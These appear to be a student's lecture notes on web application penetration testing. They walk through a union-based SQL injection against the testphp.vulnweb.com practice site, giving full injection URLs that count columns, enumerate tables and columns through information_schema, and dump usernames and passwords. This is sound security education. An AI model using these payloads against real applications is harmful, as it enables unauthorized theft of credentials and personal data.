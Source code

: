 #WAPT-notes  
### Overview
- exploiting via SQL injection , how we can change the name of database , which database using , table name , column name , sensitive details like username & password ✔ 
### what we'll learn
- how to get information from the application's database via SQL injection
### Extra Resources - SQL injection - Penetration Testing
- [Basics of SQL Injection - Penetration Testing for Ethical Hackers - YouTube](https://www.youtube.com/watch?v=2nXOxLpeu80&ab_channel=freeCodeCamp.org)
- [[HINDI] Blind SQL Injection | Methodology and Types | Conceptual Guide - YouTube](https://www.youtube.com/watch?v=O1UTuWkTaks&ab_channel=BittenTech)

---
### Topics - Explanation

1) <u>Overview Explanation</u>
	- testphp.vulnweb.com/artists.php : this is a website where we're gonna apply SQL injection
	- so it's vulnerable parameter is `http://testphp.vulnweb.com/artists.php?artist=1` 
	- STEP 1: Ques : how do Anuj sir got to know that's the vulnerable parameter ? ✅
		- Ans : when u put a single quote after that `artist=1` like this `artist=1'`
		- & hit enter , then it's throwing an error/exception ![[WAPT-lecture-21-0.jpg]]
		- & it's showing location i.e `/hj/var/www/artists.php on line 62`
	- STEP 2: `imp note ⭐` : whenever you feel that u got the vulnerable parameter on which we can perform SQL injection then try to find out the `how many columns have in the application`  
		- so checking for 1st column `http://testphp.vulnweb.com/artists.php?artist=1 order by 1` , we'll get something as a output ![[WAPT-lecture-21-1.jpg]]
		- so way give for 2nd column then 3rd column , so increase the columns to check on which column we're getting error ✔
		- STEP 2.2 : so write for 2nd column `http://testphp.vulnweb.com/artists.php?artist=1 order by 2` , so again we'll get output
		- STEP 2.3 : checking for 3rd column `http://testphp.vulnweb.com/artists.php?artist=1 order by 3` , so again we'll get output
		- STEP 2.4: checking for 4th column `http://testphp.vulnweb.com/artists.php?artist=1 order by 4` , so again we'll get error ✔ ![[WAPT-lecture-21-2.jpg]]
		- which means this application contain only 3 columns (means web pages) ✔
	- STEP 3: checking which columns are reflecting/coming & which are not
		- using `union` command to combine those columns which were giving output
		- STEP 3.1: so `http://testphp.vulnweb.com/artists.php?artist=1 union select 1,2,3` , here total 3 columns given cuz the application contain only 3 columns , so hit enter & u'll get the output as same as previous one ✔
		- so same output is coming cuz due to 1 i.e `artist=1` , so we'll query or do changes in the URL, so that it gets break - means expected output will not come ✔
		- STEP 3.2: if u put a single quote `http://testphp.vulnweb.com/artists.php?artist=1' union select 1,2,3`, output : still getting the same error
		- so we'll give something different which is not expected encode (like 1 , 2 , 3 , 4 & so on..) , so we'll give `-1` ✔
		- STEP 3.3: `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,3` , so output ![[WAPT-lecture-21-3.jpg]]
		- in URL we gave `1,2,3` but here 2 & 3 columns are coming but `1` column is not coming , so output of 2nd & 3rd column is coming 
		- STEP 3.4: in order to check more clearly , so write something custom on each column i.e `http://test.php.vulnweb.com/artists.php?artist=1 union select "ace","ethical","sharmaji"` & output ![[WAPT-lecture-21-4.jpg]]
		- so for 2nd column "ethical" & 3rd column "sharmaji" are reflecting/coming , so we got to know which columns are reflecting ✔
	- STEP 4: finding database via finding which column is using database
		- so we directly put `database()` on 2nd column without checking cuz to save the time
		- STEP 4.1: put this parameter `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,database(),3` , output ![[WAPT-lecture-21-5.jpg]]
		- so we got the database name `acuart`
		- & in order to play with this webapp , then only change 2nd & 3rd column cuz these are 2 which gives output
	- STEP 5: finding version & current user
		- STEP 5.1: `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1 ,version(),current_user()` & hit enter , output ![[WAPT-lecture-21-6.jpg]]
		- STEP 5.1: taking out more information , pass these parameters `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1, table_name,3 from information_schema.tables where table_schema=database() limit 0,1` , here `0,1` means return `1st` value , output ![[WAPT-lecture-21-7.jpg]]
		- means 1st table name is "artists" , same way u can change the limit in URL like `limit 1,1` then u'll get "carts"
		- STEP 5.2: but finding each columns individually via passing numbers will be difficult , so run this query `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()`
		- so `group_concat()` will concat all table names & show them , so output ![[WAPT-lecture-21-8.jpg]]
	- STEP 6: taking out `users`  sensitive data
		- STEP 6.1: run this `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'`
		- means we're retrieving columns of users table via `group_concat()` ✔
		- output : we'll get `uname,pass,cc,address,email,name,phone,cart`
	- STEP 7: taking out username & password
		- STEP 7.1: use this parameter `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(uname),3 from users`
		- so this will show all the usernames , hit enter & output : test - cuz we have only 1 username in the database
		- STEP 7.2: to get all the passwords of all usernames , `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(pass),3 from users` , output : pass
		- STEP 7.3: to show all usernames & passwords altogether `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(uname,"::",pass),3 from users` , output : test::test
### Summary
1) checking the webapp whether it's vulnerable or not by putting a single quote
2) checking number of columns in the application
3) checking which columns are reflecting/coming & which are not coming reflecting
4) finding database via finding which column is using/connected with database
5) finding version of tech used in application + current user
6) taking out users sensitive data
7) taking out all usernames & passwords

